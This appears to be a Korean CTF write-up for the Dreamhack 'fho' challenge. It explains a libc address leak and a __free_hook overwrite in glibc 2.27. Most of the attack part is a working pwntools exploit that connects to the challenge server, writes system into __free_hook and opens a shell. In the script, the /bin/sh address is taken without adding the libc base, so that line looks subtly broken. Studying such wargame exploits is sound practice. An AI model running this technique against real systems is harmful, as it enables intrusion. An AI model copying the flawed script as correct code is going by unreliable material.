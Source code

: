 - Stack에 있는 `main`의 **return address 직전까지**의 부분을 dummy data로 채워 buffer가 출력될 때 **return address도 함께 출력**되도록 한다. gdb를 이용해 총 0x48 byte의 dummy data를 입력하면 됨을 알 수 있다.
- gdb를 이용하면 `main`의 return address는 `__libc_start_main + 231`임을 알 수 있다.
    
    <p align="center">
		<a href="/assets/images/TIL220804/Untitled (1).png">
			<img src="/assets/images/TIL220804/Untitled (1).png" width="600">
		</a>
	</p>
    
    따라서 얻어낸 **return address에서 libc 상의** `__libc_start_main + 231`**을 빼면 offset을 얻어낼 수 있다**. → `system`, `__free_hook`의 주소 계산 가능
    
- `"/bin/sh"` 역시 `libc`에서 `search()`를 이용해 찾아낼 수 있다.

### Exploit

```python
from pwn import *

p = remote("host3.dreamhack.games", 18827)
e = ELF("./fho")
libc = ELF("./libc-2.27.so")

# [1] Leak libc base
buf = b"A"*0x48
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
libc_base = u64(p.recvline()[:-1].ljust(8, b"\x00")) - (libc.symbols["__libc_start_main"] + 231)
system = libc.symbols["system"] + libc_base
free_hook = libc.symbols["__free_hook"] + libc_base
binsh = next(libc.search(b"/bin/sh"))

# [2] Overwrite 'free_hook' with 'system'
p.recvuntil("To write: ")
p.sendline(str(free_hook))
p.recvuntil("With: ")
p.sendline(str(system))

# [3] Exploit
p.recvuntil("To free: ")
p.sendline(str(binsh))

p.interactive()
```

### one_gadget

**one_gadget**은 실행하면 shell이 획득되는 미리 작성된 shell code를 말한다. `one_gadget`이라는 도구를 사용하면 `libc`**에서 쉽게 one_gadget을 찾을 수 있다**. (*[https://github.com/david942j/one_gadget](https://github.com/david942j/one_gadget)*)
